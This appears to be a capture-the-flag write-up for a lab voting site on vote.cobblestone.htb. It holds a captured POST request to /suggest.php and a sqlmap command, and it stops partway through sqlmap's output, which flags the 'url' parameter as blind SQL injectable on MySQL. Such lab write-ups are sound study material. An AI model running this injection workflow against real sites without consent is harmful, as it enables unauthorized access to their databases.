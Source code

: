 
## Exploit 
- voting application allows user registration and login functionality
- creating an account and logging in, we can access the voting interface
- and there is just a basic table
- The application has a "suggest" feature that accepts user input
- intercept this with burp
```
POST /suggest.php HTTP/1.1
Host: vote.cobblestone.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:142.0) Gecko/20100101 Firefox/142.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 16
Origin: http://vote.cobblestone.htb
Connection: keep-alive
Referer: http://vote.cobblestone.htb/index.php
Cookie: PHPSESSID=9f734bt016qilo828ppja97mlp
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
Priority: u=0, i
```

## SQL Exploit
```sqlmap -r req --batch```

```
python sqlmap.py -r req 
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.9.8.8#dev}
|_ -| . [)]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 16:30:16 /2025-08-22/

[16:30:16] [INFO] parsing HTTP request from 'req'
[16:30:16] [INFO] testing connection to the target URL
got a 302 redirect to 'http://vote.cobblestone.htb/details.php?id=4'. Do you want to follow? [Y/n] y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] y
[16:30:23] [INFO] checking if the target is protected by some kind of WAF/IPS
[16:30:23] [INFO] testing if the target URL content is stable
[16:30:24] [WARNING] POST parameter 'url' does not appear to be dynamic
[16:30:24] [WARNING] heuristic (basic) test shows that POST parameter 'url' might not be injectable
[16:30:24] [INFO] testing for SQL injection on POST parameter 'url'
[16:30:24] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[16:30:24] [WARNING] reflective value(s) found and filtering out
[16:30:25] [INFO] POST parameter 'url' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable 
[16:30:27] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y